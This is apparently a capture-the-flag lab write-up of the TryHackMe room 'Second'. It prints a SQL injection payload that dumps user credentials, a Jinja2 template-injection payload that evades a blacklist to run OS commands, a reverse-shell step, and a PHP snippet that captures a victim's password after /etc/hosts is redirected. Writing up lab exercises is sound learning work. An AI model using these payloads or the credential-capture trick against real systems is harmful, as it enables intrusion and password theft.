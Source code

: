 # Second

https://tryhackme.com/room/fearsecond - rated Hard at time of completion.

Quite a fun little room! The entry point had me stumped for a while, due to bad assumptions, but I will get to that in a moment.

1. Initial scans revealed ports **22** and **8000** exposed. On 8000 was a website where you needed to login, could register an account, and once in would give you a form field to enter text into and a button that would count the words you entered. Notably, when you entered text and submitted, the result would be presented as 'There are X words USERNAME'. Response headers indicated a python site, so immediately expecting some form of SSTI (the room's name 'Second' is a hint towards second order injection, meaning the username you register can be used for injection) I spent a while (okay a few hours over two attempts) trying to find a working SSTI payload for Jinja2 etc, without luck.
2. The only response I could get for it was if I used a comma `'` in the username, which would cause a server error. But... that didn't make sense: usually only SQL injections caused that problem. And my username was in the cookie etc, it was clearly some sort of template engine, couldn't be SQL. Spoiler, it was SQL injection. Either the author was clever to misdirect me, or I'm an idiot. A little column a, a little column b? Anyway, a username like `' union select 1,group_concat(username,password),3,4 from users -- ` was sufficient to print the usernames and passwords for the site, which were mainly my own garbage plus the password for a user name 'smokey'.
3. With smokey's creds I could log in over SSH. There was no user flag yet though: a user named Hazel also existed so lateral movement to that user was required. Examining the system with linpeas revealed several interesting facts:

  - There was the site I accessed on port 8000, hosted from /var/opt/app and run by smokey
  - There was a second site on port 5000, hosted from /opt/app and run by hazel
  - There was a third site with the alias dev_site.thm hosted on port 8080 from /var/www/dev_site, run by www_data
  - I had the credentials for the MySQL database, with the same creds in config.php or app.py across the sites
  - Finally, Hazel as well as root had write access over the /etc/hosts file, which mapped dev_site.thm to localhost.

4. To move to Hazel, the site she was running at 5000 was examined. To browse it, I proxied it with SSH through to the attack box with the command: `ssh -L 8000:localhost:5000 smokey@10.10.1.245`. It was a simpler version of the original site, with registration and login but no word counter. Instead it would print the user's name in a welcoming message. A bit of examination of the code revealed that this *was* likely SSTI, Jinja2 specifically. And the code for the page had a black list that further confirmed this, disabling some common tokens used in payloads: `blacklist = ["config","self","_",'"']`.
5. Fortunately, in [another room](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/keldagrim.md) I had done there had been a similar filter and I was able to get a quick working payload to bypass this filter and achieve RCE: `/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`. This uses no underscores or quotes, hex encoding and pipes to execute the `id` command. I ran this and got the user `hazel` printed.
6. Unlike that other room, I couldn't get a reverse shell working as there seemed to be a size limit. However, I created a reverse_ssh client and ran that instead of id to get a reverse shell (the same could be achived by creating a metasploit payload, or even simpler just an executable shell script).
7. As hazel I had access to the user flag, and a note that said another developer, smokey again, would be logging in to the dev site every now and then to check her process. Looking at the dev site, which was basically just a login form, the username in the database (which I could see with the database credentials all sites used) was smokey, but the password was bcrypted and unbreakable. I guessed (correctly as it turned out) that this password was for root.
8. As Hazel had write access over /etc/hosts, the path forward was to re-host something on the attack box on port 8080, alter hosts to point dev_site.thm to the attack box, then capture the smokey user's password as he entered it. To do this I copied the contents of the dev_site.thm's index.php to the attack box, and added the following code at its head:

  ```php
  if($_SERVER["REQUEST_METHOD"] == "POST"){
    file_put_contents('log.txt',$_POST['password'],FILE_APPEND);
  }
  ```
  
To host this I installed the php cli on the attack box, then hosted a dev server with `php -S 0.0.0.0:8080`. I then tested this by browsing to the attack boxes IP port 8080 and trying to log in, seeing the password I entered added to log.txt.
9. After a few minutes the file updated and I saw a log entry from the php cli showing the page had been browsed. Checking log.txt I got a new password which worked for the root account. In the root directory was the final flag.

So yes, a nice three step room! Got to love a little SSTI, and the rehosting / site hosts thing was neat :)

